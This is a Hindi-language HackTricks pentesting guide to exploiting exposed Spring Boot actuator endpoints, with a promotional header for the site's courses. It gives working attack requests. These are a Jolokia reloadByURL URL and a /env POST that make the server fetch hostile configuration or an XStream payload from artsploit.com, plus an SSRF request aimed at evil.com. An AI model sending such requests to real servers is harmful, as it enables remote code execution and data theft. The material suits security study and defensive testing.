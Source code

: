 # स्प्रिंग एक्ट्यूएटर्स

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** ट्विटर पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** को [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## **स्प्रिंग ऑथ बायपास**

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

**से** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## स्प्रिंग बूट एक्ट्यूएटर्स का शोषण

**मूल पोस्ट की जांच करें** [**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **मुख्य बिंदु:**

- स्प्रिंग बूट एक्ट्यूएटर्स `/health`, `/trace`, `/beans`, `/env` आदि जैसे एंडपॉइंट्स को रजिस्टर करते हैं। संस्करण 1 से 1.4 तक, इन एंडपॉइंट्स ताकतवर पहुंचने योग्य होते हैं बिना प्रमाणीकरण के। संस्करण 1.5 के बाद, केवल `/health` और `/info` डिफ़ॉल्ट रूप से गोपनीय नहीं हैं, लेकिन डेवलपर अक्सर इस सुरक्षा को अक्षम कर देते हैं।
- कुछ एक्ट्यूएटर एंडपॉइंट्स संवेदनशील डेटा को उजागर कर सकते हैं या हानिकारक क्रियाएँ संभव बना सकते हैं:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, और `/heapdump`।
- स्प्रिंग बूट 1.x में, एक्ट्यूएटर्स मुख्य URL के तहत पंजीकृत होते हैं, जबकि 2.x में, वे `/actuator/` मूल पथ के तहत होते हैं।

### **शोषण तकनीकें:**

1. **'/jolokia' के माध्यम से दूरस्थ कोड निष्पादन**:
- `/jolokia` एक्ट्यूएटर एंडपॉइंट Jolokia पुस्तकालय को उजागर करता है, जो MBeans को HTTP उपयोग के लिए अनुमति देता है।
- `reloadByURL` क्रिया का शोषण किया जा सकता है ताकि बाह्य URL से लॉगिंग विन्यासों को पुनः लोड किया जा सके, जो क्राफ्टेड XML विन्यासों के माध्यम से ब्लाइंड XXE या रिमोट कोड निष्पादन तक ले जा सकता है।
- उदाहरण शोषण URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.

2. **'/env' के माध्यम से कॉन्फ़िगरेशन संशोधन**:
- यदि स्प्रिंग क्लाउड पुस्तकालय मौजूद हैं, तो `/env` एंडपॉइंट पर्यावरणीय गुणों का संशोधन करने की अनुमति देता है।
- गुणों को ठीक करके विकल्पों का शोषण किया जा सकता है, जैसे Eureka serviceURL में XStream डिसीरियलाइज़ेशन वंशाजरूपण की विकल्पना।
- उदाहरण शोषण POST अनुरोध:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **अन्य उपयोगी सेटिंग्स**:
- गुणों जैसे `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, और `spring.datasource.tomcat.max-active` को विभिन्न शोषणों के लिए मोड़ा जा सकता है, जैसे SQL इन्जेक्शन या डेटाबेस कनेक्शन स्ट्रिंग को बदलना।

### **अतिरिक्त जानकारी:**

- डिफ़ॉल्ट एक्ट्यूएटर्स की व्यापक सूची [यहाँ](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) मिल सकती है।
- स्प्रिंग बूट 2.x में `/env` एंडपॉइंट गुणों के संशोधन के लिए JSON प्रारूप का उपयोग करता है, लेकिन सामान्य अवधारणा वही रहती है।

### **संबंधित विषय:**

1. **Env + H2 RCE**:
- `/env` एंडपॉइंट और H2 डेटाबेस के संयोजन का शोषण करने के विवरण [यहाँ](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) मिल सकते हैं।

2. **गलत पथनामा व्याख्या के माध्यम से स्प्रिंग बूट पर SSRF**:
- मैट्रिक्स पैरामीटर्स (`;`) का स्प्रिंग फ्रेमवर्क के HTTP पथनामों में संचालन को सर्वर-साइड अनुरोध फर्जी (SSRF) के लिए शोषण किया जा सकता है।
- उदाहरण शोषण अनुरोध:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
